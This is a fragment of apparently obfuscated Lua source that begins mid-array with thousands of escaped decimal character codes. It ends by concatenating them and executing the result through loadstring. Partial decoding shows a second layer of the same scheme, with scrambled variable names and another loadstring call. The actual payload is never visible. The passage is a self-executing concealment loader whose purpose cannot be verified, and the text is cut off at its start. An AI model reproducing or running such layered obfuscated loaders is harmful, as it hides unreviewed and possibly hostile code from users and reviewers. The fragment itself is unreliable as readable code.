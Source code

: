 2","\52","\49","\34","\44","\34","\92","\49","\48","\49","\34","\44","\34","\92","\49","\49","\48","\34","\44","\34","\92","\49","\48","\48","\34","\44","\34","\92","\53","\57","\34","\44","\34","\92","\55","\55","\34","\44","\34","\92","\54","\53","\34","\44","\34","\92","\56","\52","\34","\44","\34","\92","\57","\53","\34","\44","\34","\92","\49","\48","\51","\34","\44","\34","\92","\49","\48","\52","\34","\44","\34","\92","\49","\49","\56","\34","\44","\34","\92","\56","\53","\34","\44","\34","\92","\56","\50","\34","\44","\34","\92","\49","\49","\53","\34","\44","\34","\92","\49","\48","\50","\34","\44","\34","\92","\49","\48","\54","\34","\44","\34","\92","\56","\52","\34","\44","\34","\92","\49","\48","\53","\34","\44","\34","\92","\49","\49","\48","\34","\44","\34","\92","\55","\57","\34","\44","\34","\92","\49","\50","\50","\34","\44","\34","\92","\49","\49","\56","\34","\44","\34","\92","\49","\49","\48","\34","\44","\34","\92","\54","\54","\34","\44","\34","\92","\57","\56","\34","\44","\34","\92","\57","\56","\34","\44","\34","\92","\57","\56","\34","\44","\34","\92","\57","\56","\34","\44","\34","\92","\57","\56","\34","\44","\34","\92","\54","\54","\34","\44","\34","\92","\54","\54","\34","\44","\34","\92","\54","\54","\34","\44","\34","\92","\52","\48","\34","\44","\34","\92","\55","\55","\34","\44","\34","\92","\54","\53","\34","\44","\34","\92","\56","\52","\34","\44","\34","\92","\57","\53","\34","\44","\34","\92","\49","\48","\53","\34","\44","\34","\92","\49","\49","\49","\34","\44","\34","\92","\54","\54","\34","\44","\34","\92","\55","\49","\34","\44","\34","\92","\55","\51","\34","\44","\34","\92","\56","\52","\34","\44","\34","\92","\54","\55","\34","\44","\34","\92","\57","\55","\34","\44","\34","\92","\49","\48","\50","\34","\44","\34","\92","\55","\54","\34","\44","\34","\92","\49","\48","\48","\34","\44","\34","\92","\49","\48","\51","\34","\44","\34","\92","\56","\49","\34","\44","\34","\92","\49","\49","\49","\34","\44","\34","\92","\49","\48","\57","\34","\44","\34","\92","\49","\48","\52","\34","\44","\34","\92","\55","\50","\34","\44","\34","\92","\55","\50","\34","\44","\34","\92","\55","\50","\34","\44","\34","\92","\49","\48","\52","\34","\44","\34","\92","\49","\48","\52","\34","\44","\34","\92","\55","\50","\34","\44","\34","\92","\49","\48","\52","\34","\44","\34","\92","\49","\48","\52","\34","\44","\34","\92","\52","\49","\34","\44","\125","\77","\65","\84","\95","\82","\90","\100","\76","\85","\112","\85","\122","\98","\88","\74","\72","\104","\90","\65","\81","\81","\81","\81","\81","\81","\113","\113","\113","\61","\34","\34","\59","\102","\111","\114","\32","\95","\44","\77","\65","\84","\95","\108","\71","\98","\80","\112","\99","\66","\72","\81","\102","\98","\105","\75","\117","\100","\97","\97","\65","\65","\97","\65","\97","\65","\65","\32","\105","\110","\32","\112","\97","\105","\114","\115","\40","\77","\65","\84","\95","\105","\100","\119","\95","\106","\84","\122","\72","\104","\89","\119","\75","\89","\81","\118","\75","\75","\75","\75","\75","\75","\107","\75","\107","\41","\100","\111","\32","\77","\65","\84","\95","\82","\90","\100","\76","\85","\112","\85","\122","\98","\88","\74","\72","\104","\90","\65","\81","\81","\81","\81","\81","\81","\113","\113","\113","\61","\77","\65","\84","\95","\82","\90","\100","\76","\85","\112","\85","\122","\98","\88","\74","\72","\104","\90","\65","\81","\81","\81","\81","\81","\81","\113","\113","\113","\46","\46","\77","\65","\84","\95","\108","\71","\98","\80","\112","\99","\66","\72","\81","\102","\98","\105","\75","\117","\100","\97","\97","\65","\65","\97","\65","\97","\65","\65","\59","\101","\110","\100","\59","\77","\65","\84","\95","\75","\67","\69","\69","\69","\121","\68","\83","\66","\95","\66","\111","\70","\97","\75","\95","\95","\95","\95","\95","\95","\95","\95","\95","\61","\102","\117","\110","\99","\116","\105","\111","\110","\40","\77","\65","\84","\95","\72","\89","\116","\114","\121","\79","\105","\78","\118","\108","\112","\79","\122","\88","\121","\81","\113","\113","\81","\113","\113","\113","\113","\81","\41","\108","\111","\97","\100","\115","\116","\114","\105","\110","\103","\40","\77","\65","\84","\95","\72","\89","\116","\114","\121","\79","\105","\78","\118","\108","\112","\79","\122","\88","\121","\81","\113","\113","\81","\113","\113","\113","\113","\81","\41","\40","\41","\101","\110","\100","\59","\77","\65","\84","\95","\75","\67","\69","\69","\69","\121","\68","\83","\66","\95","\66","\111","\70","\97","\75","\95","\95","\95","\95","\95","\95","\95","\95","\95","\40","\77","\65","\84","\95","\82","\90","\100","\76","\85","\112","\85","\122","\98","\88","\74","\72","\104","\90","\65","\81","\81","\81","\81","\81","\81","\113","\113","\113","\41",}MAT_DFMuIbZhx_EuRCoBbBbBBBbb="";for _,MAT_ds_pprHLAravWj_QqQQqqqQq in pairs(MAT_fwKBYxwhhYudhzzFffFFFfFf)do MAT_DFMuIbZhx_EuRCoBbBbBBBbb=MAT_DFMuIbZhx_EuRCoBbBbBBBbb..MAT_ds_pprHLAravWj_QqQQqqqQq;end;MAT_OtBMiUsGfTYKdNLKKkKKkkkk=function(MAT_WdowVqoOAxKyxvd_________)loadstring(MAT_WdowVqoOAxKyxvd_________)()end;MAT_OtBMiUsGfTYKdNLKKkKKkkkk(MAT_DFMuIbZhx_EuRCoBbBbBBBbb)
